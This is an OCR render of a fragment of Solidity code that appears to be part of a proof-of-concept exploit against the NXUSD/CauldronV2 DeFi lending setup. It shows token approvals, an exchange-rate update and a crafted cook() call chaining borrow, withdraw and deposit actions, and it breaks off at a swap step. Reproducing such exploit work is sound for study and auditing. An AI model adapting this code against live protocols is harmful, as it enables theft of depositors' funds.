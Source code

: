 │         NXUSD.approve(address(CRVPool1), type(uint).max);                                                                                                                                                                                            │
│         Pair.approve(address(DegenBox), type(uint).max);                                                                                                                                                                                             │
│         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │